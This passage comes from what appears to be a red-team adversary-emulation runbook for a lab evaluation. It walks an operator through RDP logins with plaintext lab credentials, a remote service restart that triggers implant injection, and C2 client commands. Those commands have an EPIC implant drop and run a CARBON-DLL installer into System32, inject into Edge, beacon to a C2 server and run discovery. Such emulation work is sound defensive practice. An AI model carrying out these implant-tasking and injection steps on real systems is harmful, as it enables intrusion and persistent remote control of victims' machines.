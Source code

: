 * Wait for the command to return.

:arrow_right: Minimize (do not close) the `hobgoblin` RDP window.

:arrow_right: RDP into `bannik (10.20.10.9)`, as `Frieda`:

| Username   | Password |
| :--------: | :---------------: |
| skt\Frieda  | Password3! |

* Close any spurious windows.

* Open up an administrative Powershell session and run the following commands to remotely restart the service:

```powershell
sc.exe \\hobgoblin stop ViperVPNSvc
sc.exe \\hobgoblin start ViperVPNSvc
```

ℹ️ Starting the ViperVPN service should take at least 30 seconds and eventually
result in an error `[SC] StartService FAILED 1053`. The EPIC injector will wait
an additional 2 minutes before performing injection. If the `[SC] StartService
FAILED 1053` error occurs in less than 10 seconds and/or you don't receive a
new session, contact your Evals lead.

* Wait for the command to return and then :o: sign out of your RDP session to `bannik` as `Frieda`

:arrow_right: Switch to your Kali attack station and confirm that a new elevated implant has registered.

:arrow_right: Switch back to your Kali terminal and task the SYSTEM level EPIC implant to download the CARBON-DLL installer:

```bash
./evalsC2client.py --set-task 51515228-8a7b-4226-e6e3f4 'name | C:\Windows\System32\WinResSvc.exe | dropper.exe'
```

* Wait for the command to return and then task the EPIC implant to execute the CARBON-DLL installer:

```bash
./evalsC2client.py --set-task 51515228-8a7b-4226-e6e3f4 'exe | C:\Windows\System32\WinResSvc.exe'
```

* CARBON-DLL should inject into the Microsoft Edge process and beacon back to the C2 server. Check that there is a new Carbon implant session registered with the C2 server

* Wait for the command to return and then task the Carbon implant to execute some discovery commands:

```bash
./evalsC2client.py --set-task 9b5ef515 '{"id": 0, "cmd": "whoami"}'
```

---

### :moyai: Source Code
